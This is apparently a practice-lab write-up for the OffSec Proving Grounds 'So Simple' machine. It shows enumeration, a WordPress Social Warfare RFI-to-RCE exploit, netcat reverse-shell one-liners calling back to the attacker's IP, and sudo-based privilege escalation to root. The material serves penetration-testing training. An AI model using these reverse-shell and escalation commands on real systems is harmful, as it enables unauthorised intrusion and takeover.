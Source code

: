 ```yaml
---
title: OffSec PG - So Simple
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.244.78`

### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.244.78`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

### Table

| **Port** | **Service** | **Other details (if any)**                                   |
| -------- | ----------- | ------------------------------------------------------------ |
| 22       | SSH         | OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.4.41 ((Ubuntu))                               |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.244.78 -f -w /home/tanq/installations/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php,txt`

Directories/files listed &rarr;

- index.html
- icons/ (403)
- wordpress/
- server-status/ (403)

Repeating a scan for the `/wordpress/` subdirectory, the following were listed &rarr;

- index.php (301)
- wp-content/
- wp-login.php
- license.txt
- wp-includes/
- readme.html
- wp-trackback.php
- wp-admin (302, to wp-login.php)

WPScan was also run given the presence of the wordpress site. This revealed the following findings &rarr;

- Plugin Social Warfare 3.5.0 (out of date)
- Plugin Simple Cart Solution 0.2.0 (out of date)
- Theme twentynineteen 1.6 (out of date)
- Wordpress version 5.4.2
- Enabled WP-Cron at /wordpress/wp-cron.php
- Directory listing at /wordpress/wp-content/uploads/
- XMLRPC enabled at /xmlrpc.php

---

## Exploitation

### RFI and RCE

With all the information above, the first searchsploit result is that of an RCE in Social Warfare versions < 3.5.3. Looking at the exploit, it needs a payload url to know the payload (an RFI). This will be included in `/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=<RFI_URL>`.

### Reverse Shell

Visiting this page would give the result of the command in the payload url. The payload must be of the form &rarr; `<pre>system('whoami')</pre>`. Checking the existence of netcat and bash, a new payload can be used for a reverse shell &rarr; `nc -e /bin/bash 192.168.49.244 3002`. This didn't work, therefore, used the usual bash payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.244 3002 >/tmp/f`. This grants the shell as `www-data` user.

---

## Privilege Escalation

### User 1

Looking at `/etc/passwd`, the users of interest are `root`, `max` and `steven`. The home directory of both `max` and `steven` are readable by `www-data`. The user flag is in `max`'s home directory. The webroot also contains a base32 encoded string in a file `mybackup.txt` &rarr; `JEQGQYLWMUQHI3ZANNSWK4BAORUGS4ZAOBQXG43XN5ZGIIDTN5WWK53IMVZGKIDTMFTGK3DZEBRGKY3BOVZWKICJEBRWC3RHOQQHEZLNMVWWEZLSEBUXIORAN5YGK3TTMVZWC3LF`.

This decodes to `I have to keep this password somewhere safely because I can't remember it: opensesame`. Therefore, this password is attempted on ssh for `max` and `steven`. However, this did not work.

The home directory of `max` also has a `.ssh` directory, which contains the private key of `max`. This is readable by `www-data` and is thus used to ssh into the server as `max`, which grants the shell and thus the user flag as well.

### User 2

Checked the ability of `max` to run `sudo` using `sudo -l`. This allowed running `/usr/sbin/service` as `steven` without a password. The `service` command looks for services in a specific directory and launches them. It can therefore be tricked by prepending `../../../../` to whichever command needs to be executed. Therefore running &rarr;

```
sudo -u steven /usr/sbin/service ../../../../bin/bash
```

grants the shell as `steven`.

### Root

Looked at the ability of `steven` to run `sudo`. This revealed that `steven` is allowed to run `/opt/tools/server-health.sh` as `root` without a password. The path does not exist, therefore, a new executable is created with the same name and the following content &rarr;

```
#!/bin/bash
bash -p
```

Then command `sudo /opt/tools/server-health.sh` is executed, which grants the shell as root and also the root flag.

---
